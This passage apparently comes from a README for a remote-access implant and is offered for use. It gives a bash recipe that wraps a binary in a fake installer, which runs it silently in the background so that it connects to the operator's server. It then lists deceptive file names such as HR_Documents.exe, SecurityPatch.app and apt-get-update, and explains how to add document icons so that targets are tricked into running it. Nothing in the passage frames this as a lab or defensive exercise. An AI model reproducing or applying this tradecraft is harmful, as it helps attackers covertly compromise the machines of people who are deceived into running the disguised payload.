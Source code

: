 3. **Fake Installer Package**
   ```bash
   # Create directory structure
   mkdir installer
   cp system-update installer/
   echo "#!/bin/bash" > installer/install.sh
   echo "./system-update &" >> installer/install.sh
   chmod +x installer/install.sh
   tar -czf installer.tar.gz installer/
   ```

**What Happens:**

- Target runs binary (or script that runs it)
- Executes in background
- Connects to your server
- No terminal output!

---

## 🎨 Customization Tips

### Rename for Social Engineering

**Windows:**

```
SecurityUpdate.exe → CompanyPolicy.exe
SecurityUpdate.exe → HR_Documents.exe
SecurityUpdate.exe → NetworkScanner.exe
SecurityUpdate.exe → PerformanceOptimizer.exe
```

**macOS:**

```
SystemUpdate.app → DocumentReader.app
SystemUpdate.app → SecurityPatch.app
SystemUpdate.app → SystemOptimizer.app
```

**Linux:**

```
system-update → apt-get-update
system-update → network-scanner
system-update → sys-diagnostic
```

### Add Custom Icons

1. Find appropriate icon image (PDF, Word, System icons)
2. Convert to required format (.ico or .icns)
3. Place in `icons/` folder
4. Rebuild executable
